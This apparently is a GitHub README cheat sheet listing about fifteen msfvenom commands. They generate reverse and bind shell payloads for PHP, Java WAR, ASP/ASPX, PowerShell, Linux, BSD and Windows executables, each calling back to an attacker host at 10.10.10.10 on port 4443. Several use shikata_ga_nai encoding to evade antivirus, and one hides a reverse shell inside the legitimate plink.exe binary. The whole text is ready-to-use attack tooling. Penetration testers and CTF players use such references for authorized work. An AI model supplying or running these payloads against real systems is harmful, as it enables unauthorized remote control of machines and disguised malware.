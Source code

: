 # Msf-Venom-Payloods
Payloads 


MSFVenom Payloads

You can change the IP and the Port until to execute

# PHP reverse shell  
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f raw -o shell.php

# Java WAR reverse shell  
msfvenom -p java/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f war -o shell.war

# Linux bind shell  
msfvenom -p linux/x86/shell_bind_tcp LPORT=4443 -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai

# Linux FreeBSD reverse shell  
msfvenom -p bsd/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f elf -o shell.elf

# Linux C reverse shell  
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f c

# Windows non staged reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe

# Windows Staged (Meterpreter) reverse shell  
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -f exe -o meterpreter.exe

# Windows Python reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f python -o shell.py

# Windows ASP reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f asp -e x86/shikata_ga_nai -o shell.asp

# Windows ASPX reverse shell
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx

# Windows JavaScript reverse shell with nops  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f js_le -e generic/none -n 18

# Windows Powershell reverse shell  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1

# Windows reverse shell excluding bad characters  
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=10.10.10.10 LPORT=4443 EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai

# Windows x64 bit reverse shell  
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -o shell.exe

# Windows reverse shell embedded into plink  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
